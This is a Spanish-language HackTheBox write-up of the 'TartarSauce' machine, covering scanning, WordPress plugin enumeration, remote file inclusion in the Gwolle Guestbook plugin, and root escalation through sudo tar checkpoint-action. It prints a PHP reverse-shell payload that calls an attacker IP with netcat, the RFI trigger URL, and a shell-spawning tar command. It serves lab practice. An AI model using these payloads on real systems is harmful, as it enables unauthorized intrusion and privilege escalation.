






HackTheBox
Medium
Linux
WordPress
RFI
Gwolle
sudo tar
TartarSauce
Plugin Gwolle Guestbook vulnerable a RFI; escalada via sudo tar con checkpoint-action a bash.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
searchsploit
netcat
pspy
Scanning
root@kali:~$
nmap -sC -sV -p 80 -Pn -n 10.10.10.88 -oN targeted
Enumeracion Web - WordPress

root@kali:~$
wfuzz -c --hc 403,404 -t 100 -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
root@kali:~$
searchsploit gwolle
searchsploit -x php/webapps/38861.txtExplotacion - Gwolle Guestbook RFI
El plugin gwolle-gb incluye abspath via URL, permitiendo RFI:
# wp-load.php en servidor atacante:
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f');
?>Accedemos a la URL para triggear el RFI:
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/
Escalada - sudo tar + Cron
root@kali:~$
sudo -l
# sudo -u onuma tar ...root@kali:~$
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Lecciones aprendidas
- Los plugins de WordPress desactualizados con RFI permiten ejecucion de codigo remoto.
- GTFOBins documenta como tar con sudo puede usarse para escalada de privilegios.
- pspy es fundamental para detectar cron jobs y procesos ejecutados por root.